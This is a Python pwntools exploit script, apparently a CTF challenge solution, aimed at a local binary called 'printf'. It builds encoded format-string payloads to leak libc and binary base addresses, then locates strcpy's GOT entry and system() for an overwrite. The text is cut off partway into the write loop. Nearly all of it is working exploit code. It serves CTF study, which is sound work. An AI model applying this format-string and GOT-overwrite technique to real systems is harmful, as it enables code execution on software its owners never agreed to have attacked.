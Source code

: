 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=process("./printf")
libc=ELF("./glibc/2.23-0ubuntu11.3_amd64/libc.so.6")
elf=ELF("./printf")

# gdb.attach(link,"set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/")
# pause()

def encode2(str):
    data=b""
    for i in str:
        data+=p8(((ord(i)&0b11)<<6)+((ord(i)&0b11111100)>>2))
    return data

def encode3(str):
    data=b""
    for i in str:
        data+=p8(((ord(i)&0b00111111)<<2)+((ord(i)&0b11000000)>>6))
    return data

link.recvuntil(b'your choice:')
link.sendline(b'1')
link.recvuntil(b'keys?')
link.send(b'\x00')
link.recvuntil(b'your message to encode:')
link.send(b'a'*0x150)

link.recvuntil(b'your choice:')
link.sendline(b'2')
link.recvuntil(b'your message to encode:')

# gdb.attach(link,"set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/")
# pause()

payload=encode2('%31$p%14$p%51$p')
link.sendline(payload)
link.recvuntil(b'0x')
libc_base=int(link.recvuntil(b'0x',drop=True),16)-16-libc.symbols['write']
print('libcbase='+hex(libc_base))
pointer2=int(link.recvuntil(b'0x',drop=True),16)
print('pointer2='+hex(pointer2))
binary_base=int(link.recv(12),16)-115-0xDE8
print('binarybase='+hex(binary_base))

strcpy_got=binary_base+elf.got['strcpy']
print('strcpygot='+hex(strcpy_got))
systemaddr=libc_base+libc.symbols['system']
print('systemaddr='+hex(systemaddr))

# p1:%14$p p2:%50$p p3:%54$p

for i in range(6):
    print("first"+str(i))
    x=5-i
    link.sendlineafter(b'choice:',b'2')
```